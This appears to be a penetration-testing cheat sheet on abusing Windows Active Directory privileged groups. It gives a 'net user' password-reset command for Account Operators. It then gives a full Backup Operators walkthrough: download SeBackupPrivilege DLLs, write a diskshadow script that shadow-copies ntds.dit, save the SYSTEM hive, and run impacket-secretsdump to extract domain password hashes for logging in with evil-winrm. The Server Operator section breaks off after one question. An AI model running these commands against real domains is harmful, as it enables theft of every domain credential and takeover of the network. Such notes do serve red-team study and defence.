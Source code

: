 # Groups

### **ACCOUNT OPERATORS**

It can manage and create both administrator and non-administrator users, thus also changing the passwords of other users.

```powershell
net user <USER> NewPassword1234 /domain
```

### **BACKUP OPERATORS**

to dump ntds.dit we need to be able to back up the ntds.dit file, a file containing all the hashes and information of the domain. Download the following files:

* [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll)
* [SeBackupPrivilegeCmdLets.dll ](https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll)

Create a file named diskshadow.txt containing these lines.

```vim
set context persistent nowriters #
set metadata c:\tmp\metadata.cab #
add volume c: alias myAlias #
create #
expose %myAlias% x: #
exec "cmd.exe" /c copy x:\windows\ntds\ntds.dit c:\tmp\ntds.dit #
delete shadows volume %myAlias% #
reset #
```

Create a folder named 'tmp' on the machine.

```powershell
mkdir c:\tmp
```

And upload all three files

```powershell
upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
upload diskshadow.txt
```

Start DiskShadow

```powershell
diskshadow.exe /s c:\tmp\diskshadow.txt
```

<figure><img src="../../../.gitbook/assets/Pasted image 20230510125209.png" alt=""><figcaption></figcaption></figure>

Import the previously loaded modules and use the command.

```powershell
Set-SeBackupPrivilege
```

Copy the SYSTEM and NTDS.dit files and download them.

```powershell
reg save HKLM\SYSTEM c:\tmp\system
copy-filesebackupprivilege x:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite
```

Use IMPACKET's secretdump to dump the hashes and log in with evil-winrm.

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

### **SERVER OPERATOR**

Can you restart the services and modify their PATH?
